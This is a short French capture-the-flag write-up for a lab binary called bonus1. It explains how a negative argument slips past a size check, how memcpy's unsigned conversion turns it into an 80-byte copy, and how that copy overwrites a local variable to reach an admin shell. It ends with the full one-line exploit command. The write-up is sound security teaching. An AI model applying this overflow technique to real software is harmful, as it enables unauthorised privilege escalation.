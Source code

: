 bonus1:
Il y a une seule fonction main qui prend deux arguments. Le premier argument est atoi pour être assigné à un int (i). Pour accéder au shell admin, il faut que i soit d'abord < 10, puis == 0x574f4c46 (1464814662 en décimal).
Après le premier check, un memcpy est utilisé, avec le nombre de byte copié = i * 4 (il est très important de noter que i est converti en uint par memcpy). On peut alors utiliser un overflow pour réécrire i et passer le second check, puisque i est à l'adresse 0x3c(%esp) et le buffer est à l'adresse 0x14(%esp). A noter qu'il faudra que i soit assez grand pour allouer 44 caractères (0x3c - 0x14 = 0x28, 40 en décimal + 4 charactères qui équivalent 0x574f4c46)
0x08048464 <+64>:    lea    0x14(%esp),%eax
0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
 
On peut utiliser un nombre négatif pour bypass le premier check. Si on mets par exemple
```
i = atoi("-10");
// valeur "réelle" de i
printf("%i\n", i * 4); // = -40
// valeur de i converti en unsigned
printf("%u\n", i * 4); // = 4294967256
```

4294967256 est bien au-delà de la limite max d'un int (2147483647) et le programme segfault. Il faut descendre dans les chiffres négatifs jusqu'à avoir un bon nombre.
Si on essaie directement la valeur négative max on obtient
```
i = atoi("-2147483648");
printf("%i\n", i * 4); //= 0
printf("%u\n", i * 4); //= 0
```

On peut remonter un peu : -2147483628

```
i = atoi("-2147483628");
printf("%i\n", i * 4); //= 80
printf("%u\n", i * 4); //= 80
```

Il nous reste juste à ajouter la valeur en little endian pour passer le check.

On peut donc ouvrir un shell admin avec cette commande:

`./bonus1 -2147483628 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`